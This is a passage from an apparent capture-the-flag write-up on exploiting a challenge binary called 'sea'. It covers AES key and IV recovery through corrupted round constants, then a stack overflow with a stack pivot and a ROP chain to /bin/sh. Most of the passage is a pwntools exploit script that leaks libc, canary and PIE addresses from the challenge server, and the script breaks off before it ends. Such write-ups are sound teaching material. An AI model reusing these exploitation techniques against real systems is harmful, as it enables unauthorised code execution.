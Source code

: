 In our scenario, since we can also write round constants, $$r_i$$ in the paper can also be re-written to zeros. Therefore, we can simply recover the key by `kw[0:8] + p32(u32(kw[8:12]) ^ u32(kw[0:4])) + p32(u32(kw[12:16]) ^ u32(kw[4:8]))`, where `kw` is the last expanded key, which is any ciphertext block generated by such corrupted AES.

After recovering the key, we use the overflow again to recover the constants of AES, and `iv` can be recovered by decrypting a block of ciphertext (obtained by encrypting a plaintext block using the encryption oracle) using ECB with the recovered `key` and calculating `xor` of decrypted block and the plaintext.

### 0x03 Code Execution

Finally, we can use the stack overflow in encryption to get the code execution. Since our data is encrypted, we need to firstly decrypt our payload with leaked `key` and `iv` locally. However, since the ROP chain is quite small, we firstly pivot the stack onto `.data` segment and then execute the `"/bin/sh"`. This work is done by [@n132](https://github.com/n132).

Here is the final exploit:

```python
from pwn import *
from Crypto.Cipher import AES
from binascii import *
import sys
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
if len(sys.argv) == 1:
    p = process("./sea",env={'LD_PRELOAD':"./libc-2.31.so"})
else:
    p = remote("54.180.128.138", 45510)

ru      = lambda a:     p.readuntil(a)
r       = lambda n:     p.read(n)
sla     = lambda a,b:   p.sendlineafter(a,b)
sa      = lambda a,b:   p.sendafter(a,b)
sl      = lambda a:     p.sendline(a)
s       = lambda a:     p.send(a)
def cmd(c):
    sla(b"> ",str(c).encode())
def enc(c):
    cmd(1)
    sla(b": ",c.hex())
    ru(b": ")
    return binascii.unhexlify(p.recvuntil(b"\n")[:-1])
def dec(c):
    cmd(2)
    sla(b": ",c.hex())
    ru(b"plaintext: ")
    return binascii.unhexlify(p.recvuntil(b"\n")[:-1])
def data_overflow(data):
    cmd(2)
    p.sendlineafter(b"ciphertext (as a hexstring) : ", binascii.hexlify(data))

leak = dec(enc(b"A" * 0x10 + b'\x80' * 0x80)[:-0x10])
base = u64(leak[18*8:19*8])-(0x7ffff7e12a61-0x00007ffff7d86000)-(0x7ffff7f36cc2-0x00007ffff7dd6000)
canary = u64(leak[32*8:33*8])
pie = u64(leak[31*8:32*8])-(0x555555558820-0x0000555555554000)
info(hex(pie))
info(hex(base))

info(hex(canary))
libc=ELF("./libc-2.31.so")
libc.address = base
rop=ROP(libc)
```
